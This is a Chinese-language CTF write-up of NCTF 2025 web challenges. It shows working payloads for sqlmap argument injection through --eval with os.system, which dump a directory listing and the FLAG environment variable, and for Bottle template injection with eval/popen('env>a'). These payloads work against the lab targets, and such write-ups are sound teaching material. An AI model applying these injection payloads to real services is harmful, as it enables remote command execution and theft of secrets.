NCTF 2025 Web Writeup&Challenge Walkthrough
NCTF 2025 Web Writeup&Challenge Walkthrough
sqlmap-master

打开题目，一个输入框

当点击 Inject 会触发 runInject() 函数体执行，将写入的内容通过 HTTP POST 请求发送给 /run 路由，并异步接收来自路由的响应数据，然后逐步将响应内容显示在页面上
下载题目附件

源码分析
源码很短也很简单，使用 FastAPI 框架搭建网站，提供了两个路由：根路由，返回首页 index.html，另一个 /run 路由，用来接收来自前端的 URL 参数并触发 sqlmap 执行，执行结果通过 StreamingResponse 传输给前端
# main.py
from fastapi import FastAPI, Request
from fastapi.responses import FileResponse, StreamingResponse
import subprocess
app = FastAPI()
@app.get("/")
async def index():
return FileResponse("index.html")
@app.post("/run")
async def run(request: Request):
data = await request.json()
url = data.get("url")
if not url:
return {"error": "URL is required"}
command = f'sqlmap -u {url} --batch --flush-session'
def generate():
process = subprocess.Popen(
command.split(),
stdout=subprocess.PIPE,
stderr=subprocess.STDOUT,
shell=False
)
while True:
output = process.stdout.readline()
if output == '' and process.poll() is not None:
break
if output:
yield output
return StreamingResponse(generate(), media_type="text/plain")靶机不出网，随便输入，页面返回了 SQLMAP 的执行结果

subprocess.Popen() 设置 shell=False，无法使用常规的命令注入技巧，但 SQLMAP 参数仍然可控，Github 检索一下 sqlmap 可利用的参数：
Usage: python sqlmap.py [options]
Options:
-h, --help Show basic help message and exit
-hh Show advanced help message and exit
--version Show program's version number and exit
-v VERBOSE Verbosity level: 0-6 (default 1)
Target:
At least one of these options has to be provided to define the
target(s)
-u URL, --url=URL Target URL (e.g. "http://www.site.com/vuln.php?id=1")
-d DIRECT Connection string for direct database connection
-l LOGFILE Parse target(s) from Burp or WebScarab proxy log file
-m BULKFILE Scan multiple targets given in a textual file
-r REQUESTFILE Load HTTP request from a file
-g GOOGLEDORK Process Google dork results as target URLs
-c CONFIGFILE Load options from a configuration INI file
Request:
These options can be used to specify how to connect to the target URL
-A AGENT, --user.. HTTP User-Agent header value
-H HEADER, --hea.. Extra header (e.g. "X-Forwarded-For: 127.0.0.1")
--method=METHOD Force usage of given HTTP method (e.g. PUT)
--data=DATA Data string to be sent through POST (e.g. "id=1")
--param-del=PARA.. Character used for splitting parameter values (e.g. &)
--cookie=COOKIE HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
--cookie-del=COO.. Character used for splitting cookie values (e.g. ;)
--live-cookies=L.. Live cookies file used for loading up-to-date values
--load-cookies=L.. File containing cookies in Netscape/wget format
--drop-set-cookie Ignore Set-Cookie header from response
--mobile Imitate smartphone through HTTP User-Agent header
--random-agent Use randomly selected HTTP User-Agent header value
--host=HOST HTTP Host header value
--referer=REFERER HTTP Referer header value
--headers=HEADERS Extra headers (e.g. "Accept-Language: fr\nETag: 123")
--auth-type=AUTH.. HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred=AUTH.. HTTP authentication credentials (name:password)
--auth-file=AUTH.. HTTP authentication PEM cert/private key file
--ignore-code=IG.. Ignore (problematic) HTTP error code (e.g. 401)
--ignore-proxy Ignore system default proxy settings
--ignore-redirects Ignore redirection attempts
--ignore-timeouts Ignore connection timeouts
--proxy=PROXY Use a proxy to connect to the target URL
--proxy-cred=PRO.. Proxy authentication credentials (name:password)
--proxy-file=PRO.. Load proxy list from a file
--proxy-freq=PRO.. Requests between change of proxy from a given list
--tor Use Tor anonymity network
--tor-port=TORPORT Set Tor proxy port other than default
--tor-type=TORTYPE Set Tor proxy type (HTTP, SOCKS4 or SOCKS5 (default))
--check-tor Check to see if Tor is used properly
--delay=DELAY Delay in seconds between each HTTP request
--timeout=TIMEOUT Seconds to wait before timeout connection (default 30)
--retries=RETRIES Retries when the connection timeouts (default 3)
--randomize=RPARAM Randomly change value for given parameter(s)
--safe-url=SAFEURL URL address to visit frequently during testing
--safe-post=SAFE.. POST data to send to a safe URL
--safe-req=SAFER.. Load safe HTTP request from a file
--safe-freq=SAFE.. Regular requests between visits to a safe URL
--skip-urlencode Skip URL encoding of payload data
--csrf-token=CSR.. Parameter used to hold anti-CSRF token
--csrf-url=CSRFURL URL address to visit for extraction of anti-CSRF token
--csrf-method=CS.. HTTP method to use during anti-CSRF token page visit
--csrf-retries=C.. Retries for anti-CSRF token retrieval (default 0)
--force-ssl Force usage of SSL/HTTPS
--chunked Use HTTP chunked transfer encoded (POST) requests
--hpp Use HTTP parameter pollution method
--eval=EVALCODE Evaluate provided Python code before the request (e.g.
"import hashlib;id2=hashlib.md5(id).hexdigest()")
Optimization:
These options can be used to optimize the performance of sqlmap
-o Turn on all optimization switches
--predict-output Predict common queries output
--keep-alive Use persistent HTTP(s) connections
--null-connection Retrieve page length without actual HTTP response body
--threads=THREADS Max number of concurrent HTTP(s) requests (default 1)
Injection:
These options can be used to specify which parameters to test for,
provide custom injection payloads and optional tampering scripts
-p TESTPARAMETER Testable parameter(s)
--skip=SKIP Skip testing for given parameter(s)
--skip-static Skip testing parameters that not appear to be dynamic
--param-exclude=.. Regexp to exclude parameters from testing (e.g. "ses")
--param-filter=P.. Select testable parameter(s) by place (e.g. "POST")
--dbms=DBMS Force back-end DBMS to provided value
--dbms-cred=DBMS.. DBMS authentication credentials (user:password)
--os=OS Force back-end DBMS operating system to provided value
--invalid-bignum Use big numbers for invalidating values
--invalid-logical Use logical operations for invalidating values
--invalid-string Use random strings for invalidating values
--no-cast Turn off payload casting mechanism
--no-escape Turn off string escaping mechanism
--prefix=PREFIX Injection payload prefix string
--suffix=SUFFIX Injection payload suffix string
--tamper=TAMPER Use given script(s) for tampering injection data
Detection:
These options can be used to customize the detection phase
--level=LEVEL Level of tests to perform (1-5, default 1)
--risk=RISK Risk of tests to perform (1-3, default 1)
--string=STRING String to match when query is evaluated to True
--not-string=NOT.. String to match when query is evaluated to False
--regexp=REGEXP Regexp to match when query is evaluated to True
--code=CODE HTTP code to match when query is evaluated to True
--smart Perform thorough tests only if positive heuristic(s)
--text-only Compare pages based only on the textual content
--titles Compare pages based only on their titles
Techniques:
These options can be used to tweak testing of specific SQL injection
techniques
--technique=TECH.. SQL injection techniques to use (default "BEUSTQ")
--time-sec=TIMESEC Seconds to delay the DBMS response (default 5)
--union-cols=UCOLS Range of columns to test for UNION query SQL injection
--union-char=UCHAR Character to use for bruteforcing number of columns
--union-from=UFROM Table to use in FROM part of UNION query SQL injection
--dns-domain=DNS.. Domain name used for DNS exfiltration attack
--second-url=SEC.. Resulting page URL searched for second-order response
--second-req=SEC.. Load second-order HTTP request from file
Fingerprint:
-f, --fingerprint Perform an extensive DBMS version fingerprint
Enumeration:
These options can be used to enumerate the back-end database
management system information, structure and data contained in the
tables
-a, --all Retrieve everything
-b, --banner Retrieve DBMS banner
--current-user Retrieve DBMS current user
--current-db Retrieve DBMS current database
--hostname Retrieve DBMS server hostname
--is-dba Detect if the DBMS current user is DBA
--users Enumerate DBMS users
--passwords Enumerate DBMS users password hashes
--privileges Enumerate DBMS users privileges
--roles Enumerate DBMS users roles
--dbs Enumerate DBMS databases
--tables Enumerate DBMS database tables
--columns Enumerate DBMS database table columns
--schema Enumerate DBMS schema
--count Retrieve number of entries for table(s)
--dump Dump DBMS database table entries
--dump-all Dump all DBMS databases tables entries
--search Search column(s), table(s) and/or database name(s)
--comments Check for DBMS comments during enumeration
--statements Retrieve SQL statements being run on DBMS
-D DB DBMS database to enumerate
-T TBL DBMS database table(s) to enumerate
-C COL DBMS database table column(s) to enumerate
-X EXCLUDE DBMS database identifier(s) to not enumerate
-U USER DBMS user to enumerate
--exclude-sysdbs Exclude DBMS system databases when enumerating tables
--pivot-column=P.. Pivot column name
--where=DUMPWHERE Use WHERE condition while table dumping
--start=LIMITSTART First dump table entry to retrieve
--stop=LIMITSTOP Last dump table entry to retrieve
--first=FIRSTCHAR First query output word character to retrieve
--last=LASTCHAR Last query output word character to retrieve
--sql-query=SQLQ.. SQL statement to be executed
--sql-shell Prompt for an interactive SQL shell
--sql-file=SQLFILE Execute SQL statements from given file(s)
Brute force:
These options can be used to run brute force checks
--common-tables Check existence of common tables
--common-columns Check existence of common columns
--common-files Check existence of common files
User-defined function injection:
These options can be used to create custom user-defined functions
--udf-inject Inject custom user-defined functions
--shared-lib=SHLIB Local path of the shared library
File system access:
These options can be used to access the back-end database management
system underlying file system
--file-read=FILE.. Read a file from the back-end DBMS file system
--file-write=FIL.. Write a local file on the back-end DBMS file system
--file-dest=FILE.. Back-end DBMS absolute filepath to write to
Operating system access:
These options can be used to access the back-end database management
system underlying operating system
--os-cmd=OSCMD Execute an operating system command
--os-shell Prompt for an interactive operating system shell
--os-pwn Prompt for an OOB shell, Meterpreter or VNC
--os-smbrelay One click prompt for an OOB shell, Meterpreter or VNC
--os-bof Stored procedure buffer overflow exploitation
--priv-esc Database process user privilege escalation
--msf-path=MSFPATH Local path where Metasploit Framework is installed
--tmp-path=TMPPATH Remote absolute path of temporary files directory
Windows registry access:
These options can be used to access the back-end database management
system Windows registry
--reg-read Read a Windows registry key value
--reg-add Write a Windows registry key value data
--reg-del Delete a Windows registry key value
--reg-key=REGKEY Windows registry key
--reg-value=REGVAL Windows registry key value
--reg-data=REGDATA Windows registry key value data
--reg-type=REGTYPE Windows registry key value type
General:
These options can be used to set some general working parameters
-s SESSIONFILE Load session from a stored (.sqlite) file
-t TRAFFICFILE Log all HTTP traffic into a textual file
--answers=ANSWERS Set predefined answers (e.g. "quit=N,follow=N")
--base64=BASE64P.. Parameter(s) containing Base64 encoded data
--base64-safe Use URL and filename safe Base64 alphabet (RFC 4648)
--batch Never ask for user input, use the default behavior
--binary-fields=.. Result fields having binary values (e.g. "digest")
--check-internet Check Internet connection before assessing the target
--cleanup Clean up the DBMS from sqlmap specific UDF and tables
--crawl=CRAWLDEPTH Crawl the website starting from the target URL
--crawl-exclude=.. Regexp to exclude pages from crawling (e.g. "logout")
--csv-del=CSVDEL Delimiting character used in CSV output (default ",")
--charset=CHARSET Blind SQL injection charset (e.g. "0123456789abcdef")
--dump-format=DU.. Format of dumped data (CSV (default), HTML or SQLITE)
--encoding=ENCOD.. Character encoding used for data retrieval (e.g. GBK)
--eta Display for each output the estimated time of arrival
--flush-session Flush session files for current target
--forms Parse and test forms on target URL
--fresh-queries Ignore query results stored in session file
--gpage=GOOGLEPAGE Use Google dork results from specified page number
--har=HARFILE Log all HTTP traffic into a HAR file
--hex Use hex conversion during data retrieval
--output-dir=OUT.. Custom output directory path
--parse-errors Parse and display DBMS error messages from responses
--preprocess=PRE.. Use given script(s) for preprocessing (request)
--postprocess=PO.. Use given script(s) for postprocessing (response)
--repair Redump entries having unknown character marker (?)
--save=SAVECONFIG Save options to a configuration INI file
--scope=SCOPE Regexp for filtering targets
--skip-heuristics Skip heuristic detection of SQLi/XSS vulnerabilities
--skip-waf Skip heuristic detection of WAF/IPS protection
--table-prefix=T.. Prefix used for temporary tables (default: "sqlmap")
--test-filter=TE.. Select tests by payloads and/or titles (e.g. ROW)
--test-skip=TEST.. Skip tests by payloads and/or titles (e.g. BENCHMARK)
--web-root=WEBROOT Web server document root directory (e.g. "/var/www")
Miscellaneous:
These options do not fit into any other category
-z MNEMONICS Use short mnemonics (e.g. "flu,bat,ban,tec=EU")
--alert=ALERT Run host OS command(s) when SQL injection is found
--beep Beep on question and/or when SQLi/XSS/FI is found
--dependencies Check for missing (optional) sqlmap dependencies
--disable-coloring Disable console output coloring
--list-tampers Display list of available tamper scripts
--offline Work in offline mode (only use session data)
--purge Safely remove all content from sqlmap data directory
--results-file=R.. Location of CSV results file in multiple targets mode
--shell Prompt for an interactive sqlmap shell
--tmp-dir=TMPDIR Local directory for storing temporary files
--unstable Adjust options for unstable connections
--update Update sqlmap
--wizard Simple wizard interface for beginner users看到这两个
--eval=EVALCODE Evaluate provided Python code before the request (e.g.
"import hashlib;id2=hashlib.md5(id).hexdigest()")
-c CONFIGFILE Load options from a configuration INI file--eval 能够运行 python 代码，执行系统命令，写入文件并用 -c 读取文件内容，-c 的内容会回显在 sqlmap 的执行结果中
将内容写入 sql1 中
sqlmap -u `127.0.0.1 --eval eval("__import__('os').system('ls$IFS-m$IFS/>>sql1')")` --batch --flush-session
读取
sqlmap -u `127.0.0.1 -c sql1` --batch --flush-session读取成功，但 flag 不在根目录

NCTF 题目的所有 FLAG 都存储在环境变量 FLAG 中

直接读取 FLAG 环境变量，得到 flag
127.0.0.1 --eval eval("__import__('os').system('echo$IFS$FLAG>>sql2')")
127.0.0.1 -c sql2
ez_dash(复现)
源码
#source.txt
from typing import Optional
import pydash
import bottle
__forbidden_path__=['__annotations__', '__call__', '__class__', '__closure__',
'__code__', '__defaults__', '__delattr__', '__dict__',
'__dir__', '__doc__', '__eq__', '__format__',
'__ge__', '__get__', '__getattribute__',
'__gt__', '__hash__', '__init__', '__init_subclass__',
'__kwdefaults__', '__le__', '__lt__', '__module__',
'__name__', '__ne__', '__new__', '__qualname__',
'__reduce__', '__reduce_ex__', '__repr__', '__setattr__',
'__sizeof__', '__str__', '__subclasshook__', '__wrapped__',
"Optional","func","render",
]
__forbidden_name__=[
"bottle"
]
__forbidden_name__.extend(dir(globals()["__builtins__"]))
def setval(name:str, path:str, value:str)-> Optional[bool]:
if name.find("__")>=0: return False
for word in __forbidden_name__:
if name == word:
return False
for word in __forbidden_path__:
if path.find(word)>=0: return False
obj = globals()[name]
try:
pydash.set_(obj,path,value)
except:
return False
return True
@bottle.post('/setValue')
def set_value():
name = bottle.request.query.get('name')
path = bottle.request.json.get('path')
if not isinstance(path,str):
return "no"
if len(name)>6 or len(path)>32:
return "no"
value = bottle.request.json.get('value')
return "yes" if setval(name, path, value) else "no"
@bottle.get('/render')
def render_template():
path = bottle.request.query.get('path')
if path.find("{") >= 0 or path.find("}") >= 0 or path.find(".")>=0:
return "Hacker"
return bottle.template(path)
bottle.run(host = '0.0.0.0', port = 8000)我们翻看 Bottle文档模板引擎部分，能很轻易的发现模板注入
return bottle.template(path)
尽管程序过滤了 .{}，但Bottle模板引擎还支持 %的写法，能解析Python代码
所以思路是直接模板注入，不用管 _set，题目过滤了. 我们可以通过编码绕过
if path.find("{") >= 0 or path.find("}") >= 0 or path.find(".")>=0:
return "Hacker"命令执行Payload 如下，发包时记得进行一层URL编码
/render?path=% eval("__import__('os')"+chr(46)+"popen('env>a')")
/render?path=a
ez_dash_revenge(复现)
已复现
详细请看 - 初识原型链污染篇章：
H2 Revenge(暂未复现)

internal_api(暂未复现)
